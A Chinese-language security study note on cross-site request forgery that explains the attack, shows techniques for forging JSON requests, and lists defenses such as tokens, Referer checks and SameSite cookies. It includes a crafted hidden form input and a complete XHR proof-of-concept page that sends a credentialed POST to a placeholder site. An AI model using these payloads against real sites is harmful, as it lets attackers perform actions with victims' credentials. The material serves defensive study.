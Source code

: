 - [CSRF](#csrf)
  - [原理](#原理)
  - [CSRF with Json](#csrf-with-json)
    - [JSON格式](#json格式)
    - [XHR](#xhr)
    - [307 Flash跳转](#307-flash跳转)
  - [防御](#防御)
    - [CSRF Token](#csrf-token)
    - [校验HTTP Referer](#校验http-referer)
    - [自定义Header Token](#自定义header-token)
    - [设置 SameSite](#设置-samesite)
  - [参考](#参考)

# CSRF

## 原理
原理在于服务端无法确定请求是否是由正常用户发起的,攻击者将敏感请求嵌入在恶意页面中,受害者访问该页面自动触发该请求,受害者浏览器使用受害者的凭据自动向服务器进行敏感请求操作.
## CSRF with Json
### JSON格式
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
### XHR
Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests,同时需要CORS.
使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"}));
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```
### 307 Flash跳转
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc
## 修复方案
### CSRF Token
在敏感页面的请求中加入唯一的Token,后端对敏感请求进行Token校验,而正常情况下(如果存在XSS可获得Token)攻击者无法获得该Token,则无法冒充用户进行敏感操作.
### 校验HTTP Referer
验证 HTTP Referer 字段，是否是从信任域名发送请求.
### 自定义Header Token
HTTP 头中自定义属性并验证,类似于加Token,只是加在HTTP头中,即每个页面都会带上该Token校验头,而不必在每个相关页面代码中都加上Token. 
### 设置 SameSite 
设置SameSite: (https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 
SameSite是 HTTP 响应头 Set-Cookie 的属性之一。它允许您声明该 Cookie 是否仅限于第一方或者同一站点上下文。  
SameSite 接受下面三个值:
* Lax: 比Strict模式宽松一些，允许在跨站点使用GET请求时携带Cookie。这种模式适用于需要跨站点GET请求的场景，同时也能提供一定的安全保护。
* Strict: 完全禁止第三方Cookie，即跨站点时不会携带Cookie，只有当前站点和访问站点的URL一致时才能携带Cookie。这种模式可以有效防止CSRF攻击，但可能会导致用户在跨站点时需要重新登录。
* None: 允许Cookie在所有请求中携带，但必须与Secure属性一起使用（即Cookie只能通过HTTPS协议发送）。这种模式适用于需要无限制携带Cookie的场景，但要求网站必须使用HTTPS。

![](11-06-21.png)  
## 参考
https://blog.csdn.net/zl834205311/article/details/81773511
https://tech.meituan.com/2018/10/11/fe-security-csrf.html
https://www.hahwul.com/2016/06/30/web-hacking-putdelete-csrfcross-site/